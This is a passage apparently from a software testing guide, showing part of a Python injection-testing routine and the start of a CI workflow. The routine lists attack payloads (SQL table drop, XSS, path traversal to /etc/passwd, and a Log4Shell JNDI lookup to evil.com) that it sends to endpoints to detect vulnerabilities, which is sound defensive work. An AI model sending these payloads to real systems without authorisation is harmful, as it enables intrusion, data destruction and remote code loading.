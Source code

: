 ```python
            "'; DROP TABLE sessions; --",
            "<script>alert('xss')</script>",
            "../../etc/passwd",
            "${jndi:ldap://evil.com/a}"
        ]
        
        vulnerabilities = []
        
        for endpoint in target_system.get_input_endpoints():
            for payload in injection_payloads:
                try:
                    response = await endpoint.send_input(payload)
                    
                    if self._is_vulnerable_response(response, payload):
                        vulnerabilities.append({
                            'endpoint': endpoint.url,
                            'payload': payload,
                            'response': response,
                            'severity': self._assess_severity(payload, response)
                        })
                        
                except Exception as e:
                    # Unexpected errors might indicate vulnerabilities
                    vulnerabilities.append({
                        'endpoint': endpoint.url,
                        'payload': payload,
                        'error': str(e),
                        'severity': 'medium'
                    })
                    
        return {
            'vulnerability_count': len(vulnerabilities),
            'vulnerabilities': vulnerabilities,
            'test_coverage': len(target_system.get_input_endpoints())
        }
```

## 7. Continuous Integration Framework

### 7.1 CI/CD Pipeline Integration

Integration with continuous integration systems:

```yaml
# .github/workflows/comprehensive-testing.yml
name: Comprehensive Testing and QA Pipeline

on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main]

jobs:
  python-unit-tests:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - name: Set up Python
        uses: actions/setup-python@v4
        with:
          python-version: '3.9'
      - name: Install dependencies
```